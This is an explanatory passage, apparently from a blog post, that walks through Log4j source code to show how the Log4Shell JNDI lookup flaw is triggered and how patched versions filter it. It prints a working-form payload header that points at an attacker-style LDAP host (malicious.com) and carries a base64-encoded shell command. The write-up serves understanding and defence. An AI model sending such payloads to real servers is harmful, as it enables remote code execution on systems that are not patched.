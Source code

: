 ## Part 1: Log4j

Say an attacker issues a HTTP request with the following request header to our vulnerable server:

```text
X-Api-Version: ${jndi:ldap://malicious.com:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}
```

There are different components to this payload that will come into play in different parts of the exploit:

* The first part is the string interpolation syntax and JNDI prefix `${jndi:ldap://...}` which will instruct Log4j to interpolate the value for the name that follows using the LDAP substitution mechanism in JNDI.
* Next comes the host and port `malicious.com:1389`, which will direct the LDAP request to the attacker's server.
* The URL path instructs the attacker's server as to what kind of response to construct. The last component of this path, `dG91Y2ggL3RtcC9wd25lZAo=`, is the base64 encoding of the shell command, "touch /tmp/pwned", which we desire to execute on the vulnerable server. (This command is obviously innocuous, but the attacker could make the vulnerable server execute any arbitrary command by base64-encoding it and including that as part of the header value.)

Inside Log4j, there is a method for substituting values in format strings. It looks for the string interpolation syntax, `${}`:

https://sourcegraph.com/github.com/apache/logging-log4j2@rel/2.14.1/-/blob/log4j-core/src/main/java/org/apache/logging/log4j/core/pattern/MessagePatternConverter.java?L128-134

Further down the call stack, we get into the interpolation logic, which selects a lookup method based on the prefix of the name stored in the argument `String var`, which is `jndi:ldap://malicious.com:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=`:

https://sourcegraph.com/github.com/apache/logging-log4j2@4b789c8/-/blob/log4j-core/src/main/java/org/apache/logging/log4j/core/lookup/Interpolator.java?L212-239

The `jndi` prefix selects for the JNDI lookup, which brings us into the `JNDIManager` class:

https://sourcegraph.com/github.com/apache/logging-log4j2@rel/2.14.1/-/blob/log4j-core/src/main/java/org/apache/logging/log4j/core/net/JndiManager.java?L162-173

The value of the `String name` argument is `ldap://malicious.com:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=`. This method sits at the interface between Log4j and JNDI. In Log4j versions 2.14 and prior, it's the pretty short passthrough method shown above. In subsequent patched Log4j versions, however, the method has been significantly lengthened to include sanitization and filtering steps:

https://sourcegraph.com/github.com/apache/logging-log4j2@4b789c8572d1762cd55f051971d91e44f0628908/-/blob/log4j-core/src/main/java/org/apache/logging/log4j/core/net/JndiManager.java?L221-274

This updated version of the method hints at the specific exploit paths that are now guarded against. Whitelists have been added for allowed hosts, protocols, and class names, with special attention paid to names that use the `ldap://` URL scheme. This extra sanitization code would catch our attacker payload and prevent the name from being passed to JNDI.

Why exactly is our `ldap://`-prefixed payload so dangerous if passed directly to `this.context.lookup()`? Let us find out.
